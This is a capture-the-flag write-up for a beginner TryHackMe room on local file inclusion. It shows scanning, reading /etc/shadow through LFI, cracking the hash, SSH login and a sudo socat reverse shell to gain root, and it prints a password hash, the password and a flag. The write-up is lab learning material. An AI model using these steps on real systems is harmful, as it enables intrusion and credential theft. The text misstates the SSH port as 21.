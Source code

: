 # [Inclusion-THM](https://tryhackme.com/room/inclusion)


This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability. 

--------------

# Scanning Steps :

**No Robots.txt Found**

**No source code Found**

## STEP 1 :

Scanning Open Ports

```bash
nmap -sC -sV $IP
```

Nmap output

```bash
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.32 seconds

```

Found open ports

**SSH 21 OPEN**

**HTTP 80 OPEN**

**NO PATHS FOUND**

-------------------

# Exploiting Steps :

Found page : http://IP/article?name=

**NO SQL injection FOUND**

## [Local File Inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion) Exploit Found

## STEP 1 :

Trying to access **/etc/shadow**

```bash
falconfeast:$6$dYJsdbeD$rlYGlx24kUUcSHTc0dMutxEesIAUA3d8nQeTt6FblVffELe3FxLE3gOID5nLxpHoycQ9mfSC.TNxLxet9BN5c/:18281:0:99999:7:::
```

Found Username : **falconfeast**

## STEP 2 :

Cracking password

```bash
hashcat -m 1800 hash.txt x.txt

rootpassword
```

Found Password : **rootpassword**

## STEP 3 :

Connecting to **SSH**

```bash
ssh falconfeast@ip
password :

$ cd /home
$ ls
falconfeast
$ cd falconfeast
$ ls
user.txt
```

**FOUND USER.TXT**

## STEP 4 :

Checking **Sudo Privileges**

```bash
(root) NOPASSWD: /usr/bin/socat
```

## STEP 5 :

Start Listening using **socat**

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

Spawn Shell with **socat**

```bash
sudo socat tcp-connect:$IP:4444 exec:sh,pty,stderr,setsid,sigint,sane

# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
42964104845495153909
# 
```

**FOUND ROOT.TXT**
